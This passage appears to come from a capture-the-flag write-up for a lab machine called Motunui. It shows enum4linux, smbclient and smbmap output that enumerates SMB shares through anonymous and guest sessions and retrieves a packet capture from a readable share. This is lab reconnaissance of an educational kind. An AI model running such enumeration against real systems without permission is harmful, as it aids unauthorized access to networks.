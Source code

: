 ```bash
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
...
 ============================================= 
|    Getting printer info for xx.xxx.xxx.x    |
 ============================================= 
No printers returned.


enum4linux complete on Wed Oct  8 xx:xx:xx 2025
```

<br>
<p align="center">smbclient<br> Identified <ins>print$</ins>, <ins>traces</ins>, and <ins>IPC$</ins>.</p>

```bash
:~/Motunui# smbclient -L xx.xxx.xxx.x -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	traces          Disk      Network shared files
	IPC$            IPC       IPC Service (motunui server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

<br>
<p align="center">smbmap<br>Downloaded <ins>ticket_6746.pcapng</ins>.</p>

```bash
:~/Motunui# smbmap -H xx.xxx.xxx.x -u guest -p ' '
[+] Finding open SMB ports....
[+] Guest SMB session established on xx.xxx.xxx.x...
[+] IP: xx.xxx.xxx.x:445	Name: xx.xxx.xxx.x                                      
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	.                                                  
	dr--r--r--                0 Thu Jul  9 04:48:54 2020	.
	dr--r--r--                0 Thu Jul  9 04:48:27 2020	..
	dr--r--r--                0 Thu Jul  9 04:50:12 2020	moana
	dr--r--r--                0 Mon Aug  3 17:22:03 2020	maui
	dr--r--r--                0 Thu Jul  9 04:50:40 2020	tui
	traces                                            	READ ONLY	Network shared files
	IPC$                                              	NO ACCESS	IPC Service (motunui server (Samba, Ubuntu))
```
